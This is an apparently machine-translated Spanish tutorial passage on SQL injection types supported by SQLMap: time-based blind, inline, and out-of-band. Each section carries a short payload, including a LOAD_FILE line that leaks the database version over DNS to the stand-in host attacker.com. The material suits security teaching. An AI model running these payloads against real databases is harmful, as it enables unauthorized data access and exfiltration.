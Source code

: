 
## Inyección SQL ciega basada en el tiempo

Ejemplo de`Time-based blind SQL Injection`:

Código:sql

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

El principio de`Time-based blind SQL Injection`es similar al`Boolean-based blind SQL Injection`, pero aquí el tiempo de respuesta se usa como fuente de la diferenciación entre`TRUE`o`FALSE`.

- `TRUE`La respuesta generalmente se caracteriza por la diferencia notable en el tiempo de respuesta en comparación con la respuesta del servidor regular
    
- `FALSE`La respuesta debería dar como resultado un tiempo de respuesta indistinguible de los tiempos de respuesta regulares
    

`Time-based blind SQL Injection`es considerablemente más lento que el ciego sqli basado en booleano, ya que las consultas dan como resultado`TRUE`retrasaría la respuesta del servidor. Este tipo SQLI se usa en los casos donde`Boolean-based blind SQL Injection`no es aplicable. Por ejemplo, en caso de que la declaración SQL vulnerable no sea Quera (por ejemplo,`INSERT`, `UPDATE`o`DELETE`), ejecutado como parte de la funcionalidad auxiliar sin ningún efecto en el proceso de representación de la página, el SQLI basado en el tiempo se usa fuera de la necesidad, como`Boolean-based blind SQL Injection`Realmente no funcionaría en este caso.

---

## Consultas en línea

Example of `Inline Queries`:

Código:sql

```sql
SELECT (SELECT @@version) from
```

Este tipo de inyección incrustó una consulta dentro de la consulta original. Dicha inyección SQL es poco común, ya que necesita que la aplicación web vulnerable se escriba de cierta manera. Aún así, SQLMAP también admite este tipo de SQLI.

---

## Inyección de SQL fuera de banda

Ejemplo de`Out-of-band SQL Injection`:

Código:sql

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

Este se considera uno de los tipos más avanzados de SQLI, utilizados en los casos en que todos los demás tipos no son compatibles con la aplicación web vulnerable o son demasiado lentos (por ejemplo, SQLI ciega basado en el tiempo). SQLMAP admite SQLI fuera de banda a través de "Exfiltración DNS", donde las consultas solicitadas se recuperan a través del tráfico DNS.

